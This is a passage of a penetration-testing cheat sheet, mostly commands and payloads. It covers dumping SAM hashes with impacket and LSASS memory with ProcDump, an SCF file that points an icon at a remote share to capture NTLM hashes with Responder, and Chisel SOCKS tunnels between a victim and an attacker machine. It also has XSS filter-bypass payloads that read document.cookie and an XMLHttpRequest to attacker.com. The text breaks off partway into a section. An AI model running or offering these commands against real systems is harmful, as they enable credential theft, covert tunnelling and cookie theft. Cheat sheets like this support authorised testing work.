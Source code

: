 ```powershell
# transfer the files over to the attacking machine and then dump the hashes with impacket
impacket-secretsdump -sam sam -security security -system system LOCAL
```
### Dumping LSASS with ProcDump
```powershell
procdump64.exe -accepteula -ma LSASS c:\temp\lsass.dmp
```
### SCF Example File for Capturing NTLM Hashes with Responder
```
[Shell]
Command=2
IconFile=\\10.10.10.10\Share\evil.ico
[Taskbar]
Command=ToggleDesktop
```
### Test if Port is Open with PowerShell
```powershell
Test-NetConnection -ComputerName 10.10.10.10 -Port 8080
```
### Minimizing the Size of Go Binary for Transer (Chisel Example)
```console
git clone https://github.com/jpillora/chisel.git
cd chisel
# the following command build chisel for windows/amd64
# and also strips symbol information and omits the DWARF
# symbol table, making the binary smaller
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" main.go
```
### Chisel SOCKS Proxy
```console
# SOCKS server running on victim machine
@victim $ chisel-windows server --socks5 -p 9010
@attacker $ chisel-linux client 10.2.230.127:9010 5000:socks
# socks proxy can be accessed on port 5000 on attacker machine

# SOCKS server on attacker machine
@attacker $ chisel-linux server -p 8888 --reverse
@victim $ chisel-windows client 13.37.13.37:8888 R:5000:socks
# socks proxy can be accessed on port 5000 on attacker machine
```
### Bypassing XSS document.cookie filter using JavaScript Global Variables
```javascript
(alert)(window["document"]["cookie"]);
window["alert"](window["document"]["cookie"]);
self[/*foo*/"alert"](self[document"/*bar*/]["cookie"]);

self["ale"+"rt"](self["doc"+"ument"]["coo"+"kie"]);
```
### HTTP Requests with JavaScript
```javascript
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://attacker.com", false); // false means synchronous request
xhr.send(null);

/* ---- Oneliner ---- */
var xhr=new XMLHttpRequest();xhr.open("GET","https://attacker.com",false);xhr.send(null);

/* ---- with HTTP header ---- */
```